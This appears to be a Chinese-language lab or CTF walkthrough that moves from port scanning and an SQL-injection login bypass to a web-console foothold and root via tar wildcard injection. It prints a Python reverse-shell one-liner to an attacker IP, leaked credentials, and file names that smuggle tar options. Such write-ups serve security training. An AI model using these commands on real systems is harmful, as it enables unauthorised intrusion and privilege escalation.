# 信息收集

## nmap



## 80端口

扫目录得到一个`login.php`，其他是放一些图片和css代码的文件夹，没有有用信息



## 9090端口

扫目录得到ping目录



并且连接至攻击机时，本地会收到请求





# 80-login.php-SQL-Inject

当以单引号闭合时会报`sql`语句的错误



单引号闭合并且加上井号注释后面的sql语句时可以成功登录



密码是base64加密，解密后可以得到正确密码

```
james:canttouchhhthiss@455152
cameron:thisscanttbetouchedd@455152
```

# 9090端口

通过james的账号密码可以登录到9090端口开启的服务，这是对虚拟机进行管理的一个页面，可以直接在web终端中命令执行



也可以通过web终端反弹shell到本地

反弹shell:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.198",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```



# tar命令提权



james用户可以用root权限执行tar命令







tar命令有两个参数 `--checkpoint` `--checkpoint-action`

`–checkpoint[=NUMBER]` 显示每个Numbers记录的进度消息（默认值为10）

`–checkpoint-action=ACTION` 在每个checkpoint（检查点）上执行ACTION

这里的`–checkpoint-action`选项，用于指定到达检查点时将要执行的程序，这将允许我们运行一个任意的命令。因此，选项`–checkpoint=1` 和 `–checkpoint-action=exec=sh shell.sh`作为命令行选项交给了tar程序。

 

所以当可以通过sudo或suid执行tar命令时，可以通过该方法进行提权

```
echo "/bin/bash" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
```

当执行tar 命令时，通配符* 会自动被替换成参数，完整的命令就成下面

```
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
 --checkpoint=1 --checkpoint-action=exec=sh shell.sh
```

shell.sh里面又是我们的shell命令，所以自然而然会给我们一个高权限shell，提权成功

